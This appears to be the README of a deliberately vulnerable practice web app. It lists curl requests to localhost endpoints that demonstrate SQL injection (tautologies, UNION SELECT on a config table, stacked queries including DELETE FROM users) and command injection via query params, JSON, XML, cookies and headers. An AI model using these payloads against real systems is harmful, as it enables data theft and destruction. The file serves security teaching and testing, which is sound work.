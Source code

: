 # vulnerable

## SQL Injection

### GET request - Get list of users - filter by query param
```bash
curl http://localhost:8080/vun/sql/example1/api/users?name=michal
curl http://localhost:8080/vun/sql/example1/api/users?name=michal%27%20or%201=1%20--%20-
curl http://localhost:8080/vun/sql/example1/api/users?name=michal%27%20UNION%20SELECT%20%2A%20FROM%20config%20%2D%2D%20%2D
```

### POST request - Get list of users - filter by json body
```bash
curl -X POST http://localhost:8080/vun/sql/example2/api/users -H "Content-Type: application/json" -d "{\"filter\": \"michal\"}"  
curl -X POST http://localhost:8080/vun/sql/example2/api/users -H "Content-Type: application/json" -d "{\"filter\": \"michal' or 1=1 -- -\"}"  
```

### Post request - Create new User
```bash
curl -X POST http://localhost:8080/vun/sql/example3/api/users -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker\"}"  
curl -X POST http://localhost:8080/vun/sql/example3/api/users -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); SELECT * FROM users; -- - \"}"  
curl -X POST http://localhost:8080/vun/sql/example3/api/users -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); DELETE FROM users; -- - \"}"  
```

### GET request - Get list of users - filter in cookie
```bash
curl http://localhost:8080/vun/sql/example4/api/users --cookie "name=michal"
curl http://localhost:8080/vun/sql/example4/api/users --cookie "name=michal'%20or%201=1%20--%20-"
```

### GET request - Get list of users - filter in header
```bash
curl http://localhost:8080/vun/sql/example5/api/users -H "X-Filter:michal"
curl http://localhost:8080/vun/sql/example5/api/users -H "X-Filter:michal' or 1=1 -- -"
```

### POST request - Get list of users - filter by xml body
```bash
curl -X POST http://localhost:8080/vun/sql/example6/api/users -H "Content-Type: application/xml" -d "<filters><filter>michal</filter></filters>"  
curl -X POST http://localhost:8080/vun/sql/example6/api/users -H "Content-Type: application/xml" -d "<filters><filter>michal' or 1=1 -- -</filter></filters>"
```

## CMD Injection

### GET request - cmd in query param
```bash
curl http://localhost:8080/vun/cmd/example1/?cmd=pwd
```

### POST request - cmd filter by json body
```bash
curl -X POST http://localhost:8080/vun/cmd/example2/ -H "Content-Type: application/json" -d "{\"filter\": \"pwd\"}"  
```

### POST request - cmd filter by xml body
```bash
curl -X POST http://localhost:8080/vun/cmd/example3/ -H "Content-Type: application/xml" -d "<filters><filter>pwd</filter></filters>"  
```

### GET request - cmd in cookie
```bash
curl http://localhost:8080/vun/cmd/example4/ --cookie "cmd=pwd"
```